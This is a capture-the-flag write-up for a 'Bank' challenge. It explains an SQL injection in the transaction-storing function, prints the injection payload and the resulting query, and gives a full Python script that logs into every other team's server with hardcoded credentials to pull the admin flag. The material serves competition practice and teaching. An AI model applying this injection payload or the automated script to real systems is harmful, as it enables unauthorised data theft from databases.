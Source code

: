 Bank writeup
===========
### Vulnerability
There is SQL injection vulnerability in bank system. \
The vulnerability originates from functions in `db/utils.py`: `get_account_num`,
`get_balance`, and `store_transaction`. \
They can be spotted by diffing the source codes.

First two functions seem hard to be exploited as the arguments are user ID,
which leaves me one and only readily-feasiable vulnerabile function.

### Payload
The plan is to insert the flag which resides in the email field of admin into 
transfer message so that we can check the flag in transaction history.
Therefore we put the following payload in transfer message:

```
',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1
```
which results in complete sql query:
```sql
INSERT INTO `tran_table`(`from_account`, `to_account`, `remit`, `msg`,
    `from_balance`, `to_balance`)
VALUES(%s, %s, %s, concat ('[Transfer] ', '',(SELECT email FROM user_table
            LIMIT 1)),0,0),(1,1,1,('1'), %s, %s)
```

### Full Exploit Code
The following exploit code exploits all other team's servers.
```python
# '^[A-za-z0-9\.\,_\(\)\' ]{,100}$'
import socket
import re

def recvuntil(s, data):
        p = ''
        while not p.endswith(data):
                p += s.recv(1)
        print p
        return p

ips = [None, None, "10.0.102.101", "10.0.103.101", "10.0.104.101", "10.0.105.101", "10.0.106.101"]
id_list = [None, None, "jmpark81", "jmpark81", "jjjkkk1", "jjjkim1", "jjjkkk1"]
pw_list = [None, None, "test1234", "test1234", "jjpass1", "jjpass1", "jjpass1"]

def attack(teamN):
        s = socket.socket(2, 1)
        s.connect((ips[teamN], 1588))
        recvuntil(s, "-> ")
        s.send("1\n")
        recvuntil(s, "Username -> ")
        s.send(id_list[teamN] + "\n") ##### ID
        recvuntil(s, "Password -> ")
        s.send(pw_list[teamN] + "\n") ##### PW
        recvuntil(s, "What would you like to do? -> ")
        s.send("3\n")

        recvuntil(s, "Receiver (user ID) -> ")
        s.send("admin\n")
        recvuntil(s, "Amount to transfer -> ")
        s.send("1\n")
        recvuntil(s, "Transfer message -> ")
        t = """',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1"""
        s.send(t+'\n')
        recvuntil(s, "Would you like to transfer? (Y/N) -> ")
        s.send("Y"+'\n')
        recvuntil(s, "Enter any key to return to the previous menu -> ")
        s.send('\n')

        recvuntil(s, "What would you like to do? -> ")
        s.send("2\n")
        flag = re.findall("\[Transfer\] (.{32})", recvuntil(s, "Enter any key to return to the previous menu -> "))[0]
        with open("flag_bank_team%d" % teamN, "wt") as f: f.write(flag)
        s.close()

for i in range(2,7):
        attack(i)
```
